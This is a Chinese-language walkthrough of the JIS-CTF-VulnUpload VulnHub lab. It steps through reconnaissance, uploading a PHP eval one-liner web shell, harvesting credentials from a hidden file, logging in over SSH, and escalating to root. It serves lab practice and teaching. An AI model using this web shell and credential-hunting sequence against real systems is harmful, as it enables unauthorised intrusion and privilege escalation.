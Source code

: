 > [JIS-CTF-VulnUpload-CTF01靶机下载地址](https://download.vulnhub.com/jisctf/JIS-CTF-VulnUpload-CTF01.ova)

### 1、网卡配置

开启靶机，看见加载的进度条按`shift`，看到如下界面：

![image-20230828203117026](./imgs/image-20230828203117026.png)

然后按`e`键,修改 如下

```bash
rw signie init=/bin/bash    # rw读写 signie单用户 命令权限/bin/bash
```

![image-20230828202442490](./imgs/image-20230828202442490.png)



改完之后`Ctrl+x`进入单用户模式

先查看我们靶机的网卡名称`ip a`

![image-20230828203322016](./imgs/image-20230828203322016.png)

然后来到靶机`vim /etc/network/interfaces`下，进行网卡配置,

网卡默认配置如下

![image-20230828202823803](./imgs/image-20230828202823803.png)

进行网卡配置修改如下：

![image-20230828203415086](./imgs/image-20230828203415086.png)

然后重启网卡

```bash
/etc/init.d/networking restart
```

重启靶机

### 2、信息收集

靶机MAC：`00:0C:29:09:00:9D`

#### 主机发现

```bash
sudo arp-scan -l
```

![image-20230828203726965](./imgs/image-20230828203726965.png)

#### 端口扫描

```bash
sudo nmap -A -p- 192.168.80.140
```

![image-20230828204026500](./imgs/image-20230828204026500.png)

#### 目录扫描

```bash
sudo dirsearch -u 192.168.80.140  
```

![image-20230828204421711](./imgs/image-20230828204421711.png)

```bash
dirb http://192.168.80.140
```

![image-20230828204802515](./imgs/image-20230828204802515.png)

### 3、漏洞探测

访问flag `http://192.168.80.140/flag/`

![image-20230828204943711](./imgs/image-20230828204943711.png)

访问`robots.txt`

`http://192.168.80.140/robots.txt`

![image-20230828205038544](./imgs/image-20230828205038544.png)

访问`login.php`

`http://192.168.80.140/login.php`

![image-20230828205224719](./imgs/image-20230828205224719.png)

发现没有什么发现，继续 看看其他目录

访问`admin_area`，发现第二个`flag`

![image-20230828205325814](./imgs/image-20230828205325814.png)

> ​	username : `admin`
> ​			password : `3v1l_H@ck3r`
> ​			The 2nd flag is : {7412574125871236547895214}

前往登录页面进行登录

![image-20230828205519547](./imgs/image-20230828205519547.png)

发现是一个文件上传的界面，我们可以上传一句话木马尝试得到	`shell`

### 4、漏洞利用

#### 一句话木马

编辑一句话木马`1.php`

```php
<?php  @eval($_REQUEST[6868])?>
```

在刚才的`robots.txt`文件里，又跟上传相关的

![image-20230828205900277](./imgs/image-20230828205900277.png)

访问`http://192.168.80.140/uploads`报错

访问`http://192.168.80.140/uploaded_files/`页面没反应，但是也没有报错，

继续访问`http://192.168.80.140/uploaded_files/1.php`，页面也没有报错

#### 蚁剑 GetShell

URL地址：`http://192.168.80.140/uploaded_files/1.php`

连接密码：`6868`

![image-20230828210153091](./imgs/image-20230828210153091.png)

查看有用信息

```bash
find / -name 'flag*' 2>/dev/null
```

![image-20230828211756499](./imgs/image-20230828211756499.png)

发现没有权限访问`/var/www/html/flag.txt`



在`/var/www/html/hint.txt`里发现第三个	flag

![image-20230828210507525](./imgs/image-20230828210507525.png)

![image-20230828210528853](./imgs/image-20230828210528853.png)

> 尝试使用`technawi`密码来读取flag.txt文件，你可以在一个隐藏文件找到它

使用`find`命令查找

```bash
find / -user 'technawi' 2>/dev/null
```

![image-20230828211332299](./imgs/image-20230828211332299.png)

`cat /etc/mysql/conf.d/credentials.txt`

![image-20230828211342164](./imgs/image-20230828211342164.png)

得到`technawi`用户的密码

> username : technawi
> 		password : 3vilH@ksor

#### SSH连接

使用ssh连接`ssh technawi@192.168.80.140`，查看该用户能以`root`身份执行哪些文件，发现有所有的权限

![image-20230828211958588](./imgs/image-20230828211958588.png)

然后去看看`/var/www/html/flag.txt`，得到第五个flag

![image-20230828212058326](./imgs/image-20230828212058326.png)

#### 提权

```bash 
sudo su
```

![image-20230828212336617](./imgs/image-20230828212336617.png)